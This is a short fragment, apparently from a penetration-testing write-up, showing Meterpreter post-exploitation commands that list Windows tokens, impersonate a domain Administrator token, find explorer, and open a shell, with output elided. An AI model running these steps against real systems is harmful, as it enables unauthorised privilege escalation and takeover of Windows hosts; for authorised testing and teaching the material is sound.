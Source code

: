	meterpreter > list_tokens -u
...
meterpreter > impersonate_token SNEAKS.IN\\Administrator
...
	meterpreter > pgrep explorer
...
meterpreter > shell
```




